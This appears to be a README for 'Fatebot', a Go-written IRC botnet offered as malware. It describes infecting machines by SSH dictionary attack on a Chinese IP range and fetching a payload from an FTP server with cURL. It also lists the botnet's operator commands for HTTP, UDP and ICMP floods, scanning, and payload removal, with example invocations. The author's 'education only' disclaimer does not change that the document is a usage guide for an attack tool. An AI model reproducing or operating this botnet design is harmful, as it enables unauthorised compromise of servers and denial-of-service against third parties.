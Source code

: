 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "123456". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>[SCAN PROCESS]</strong>
<img src="img/scan process.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me and I don't know about exploit development,
But raw socket need it(exploit) to get a permission for run it. So in <strong>The volumetric</strong> all of them are a simple udp and icmp flood. so DDoS function is really hard and challenge for me.

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com/</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.1 500</li>
      - Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?udp 192.168.1.1</li>
      - Flood ICMP packets to target.(I know it's a old school DoS, lol.)
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.1/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
